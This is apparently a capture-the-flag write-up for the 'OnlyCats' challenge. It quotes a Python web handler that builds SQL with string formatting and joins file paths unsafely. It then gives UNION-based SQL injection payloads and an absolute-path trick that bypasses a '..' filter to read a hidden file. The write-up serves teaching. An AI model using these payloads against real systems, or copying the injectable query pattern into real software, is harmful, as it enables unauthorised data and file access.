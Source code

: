 # OnlyCats
Written by Halogen
## Problem Statement
> APOCALYPSE has recently started a new business venture, a [website](http://chals.cyberthon22f.ctf.sg:40501/) for people to download cute images of cats! While that seems like a relatively normal kind of business, our intel says that it might be more than what it appears to be. So we've got to keep a close eye on it. Currently, their service has only cat pictures.  
>   
> However rumors are going around that they're venturing into dogs very soon. Could u confirm the rumour for me?
## Provided Files
[main.py](./assets/cats.py)
## Solution
From the source code, we extract out the relevant bits
```py
assert os.path.exists("/app/images/dogs/flag.jpg")

@app.post("/download/")
async def download(request: Request):
    form = {**(await request.form())}
    query = {"is_public": "yes"}  
    
    if form.get("species") is None:
        return "Fail"
    
    form["species"] = hashlib.md5(form["species"].encode()).hexdigest()  
    query.update(form)
    
    result = await database.fetch_one(
        query="SELECT filename FROM cats WHERE is_public='{is_public}' AND species='{species}'".format(
            **query
        )
    )
    
    if not result or ".." in result["filename"]:
        return "Fail"
    return FileResponse(os.path.join("/app", "images", "cats", result["filename"]))
```
We see that we are to reach `/app/images/dogs/flag.jpg`, using SQL injection through `is_public` and `species`.

However, there are restrictions...
1. Cannot have ".." in filename
2. md5 of species is used, instead of the name

So firstly, we note that we must perform injection through `is_public` as `species` is locked out.
Next, we note that SQL injection allows us to input any string as the output query.
By letting `is_public`=`maybe_maybenot`, we ensure that there is no possible matches.
Now by `UNION`, we can inject any string we want as the output of the query.

<u>Payload</u>
```
is_public = sus_imposter' UNION SELECT "../dogs/flag.jpg" from cats--
species = whatever
```

We are close, but the above payload is rejected as it contains ".."
This is where [`os.path.join`](https://www.geeksforgeeks.org/python-os-path-join-method/) enters the picture.
As the filename is the last parameter in the function, we can overwrite the entire path. 
This is because `os.path.join` will discard pervious additions when an absolute path is used.
So by inserting an absolute path instead of relative path, we get the flag

<u>Payload</u>
```
is_public = sus_imposter' UNION SELECT "/app/images/dogs/flag.jpg" from cats--
species = whatever
```

<u>Image</u>
![](./assets/cats.png)

Flag: `Cyberthon{why_15_1t_4Lw4y5_d0g`